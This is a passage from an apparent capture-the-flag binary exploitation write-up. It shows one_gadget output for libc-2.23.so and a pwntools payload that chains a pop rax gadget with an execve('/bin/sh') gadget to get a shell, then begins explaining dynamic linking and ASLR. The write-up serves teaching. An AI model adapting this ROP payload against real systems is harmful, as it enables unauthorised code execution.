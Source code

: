 ### Shell Gadget

Using a tool called [one_gadget](https://github.com/david942j/one_gadget), we can search for a single gadget that gives us a shell in the libc.

```sh
$ one_gadget "libc-2.23.so"
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
Note that while `one_gadget` found several for us, it does impose constraints on each gadget that must be met before the gadget is called. I will use the first gadget since it is the simplest - but before I can use it, I need to ensure that $rax = 0. I do this by searching for gadgets that pop values into $rax using ROPgadget as I did before. I couldn't find a simple one in the binary itself, but when I ran it on the libc file, I found a simple `pop $rax; ret;` so I decided to use that. Immediately after, we can use the `one_gadget` gadget to give us a shell.

```python
shell = 0x45216 # Condition: rax = NULL
pop_rax = 0x0000000000033544

# Send payload two
buf = cyclic_find('faaaaaaa', n=8) * 'a' # 40 bytes
buf += p64(pop_rax + libc_base)
buf += p64(0)
buf += p64(shell + libc_base)
buf += p64(libc.symbols['exit'] + libc_base)
p.sendline(buf)
```

Line 9 is unnecessary for the exploit to work, but it does let the program exit gracefully once the shell completes.

[Here](solve.py) is our final exploit code. After running it, we get the following.

{% asset_img success.png %}

Awesome, we got a shell!

### Dynamic Linking with Shared Objects
To understand why we need to leak an address, we need to understand how code from shared objects is run. When ASLR is enabled on an operating system, every time a program runs, the address of each function it uses from a shared object is randomized.
